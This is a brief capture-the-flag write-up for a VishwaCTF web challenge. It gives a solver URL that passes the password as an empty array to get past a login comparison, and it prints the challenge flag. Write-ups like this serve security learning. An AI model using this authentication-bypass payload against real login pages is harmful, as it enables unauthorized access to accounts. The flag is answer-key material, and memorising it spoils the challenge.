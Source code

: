 ## Solver
```
https://ch411378112679.ch.eng.run/?username=""&password[]=""&submit=Login
```

## Flag
> VishwaCTF{5t0p_c0mp4r1ng}
